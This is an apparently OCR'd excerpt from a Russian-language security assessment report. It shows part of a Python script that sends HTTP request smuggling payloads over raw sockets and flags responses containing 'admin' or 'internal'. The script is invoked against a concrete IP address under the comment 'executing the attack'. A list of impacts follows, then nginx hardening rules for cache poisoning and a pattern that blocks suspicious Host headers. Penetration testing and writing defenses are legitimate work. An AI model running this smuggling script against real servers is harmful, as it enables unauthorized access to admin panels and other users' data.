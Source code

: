 ```python
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((target_ip, target_port))
            sock.send(payload.encode())
            
            response = sock.recv(4096)
            print(f"   Response length: {len(response)} bytes")
            
            if b"admin" in response.lower() or b"internal" in response.lower():
                print(f"   💀 POTENTIAL SMUGGLING SUCCESS! Payload #{i}")
                print(f"   Response preview: {response[:200]}...")
            
            sock.close()
            time.sleep(2)  # Избегаем rate limiting
            
        except Exception as e:
            print(f"   ⚠️ Error with payload #{i}: {e}")
    
    print("🎯 HTTP smuggling assessment completed")

# Выполняем атаку
advanced_smuggling_attack("172.67.68.228")
```

#### **Воздействие HTTP Smuggling:**
- **Обход аутентификации** и авторизации
- **Доступ к админ-панелям** и внутренним API
- **Эксфильтрация данных** других пользователей
- **Кэш отравление** с персистентным воздействием
- **Обход WAF** и систем безопасности

---

## 🛡️ РЕКОМЕНДАЦИИ ПО ЗАЩИТЕ

### 🚨 **НЕМЕДЛЕННЫЕ ДЕЙСТВИЯ (КРИТИЧНО):**

#### **1. Защита от Cache Poisoning:**
```nginx
# Nginx конфигурация для защиты
server {
    # Строгая валидация Host заголовка
    if ($host !~ ^(legitimate-domain\.com|www\.legitimate-domain\.com)$ ) {
        return 444;  # Закрыть соединение
    }
    
    # Нормализация ключа кэша
    proxy_cache_key $scheme$proxy_host$request_uri;
    
    # Санитизация заголовков
    proxy_set_header Host $host;
    proxy_hide_header X-Cache-Key;
    
    # Блокировка подозрительных Host заголовков
    if ($http_host ~* (evil|attacker|localhost|127\.0\.0\.1)) {
        return 403;
    }
}
```
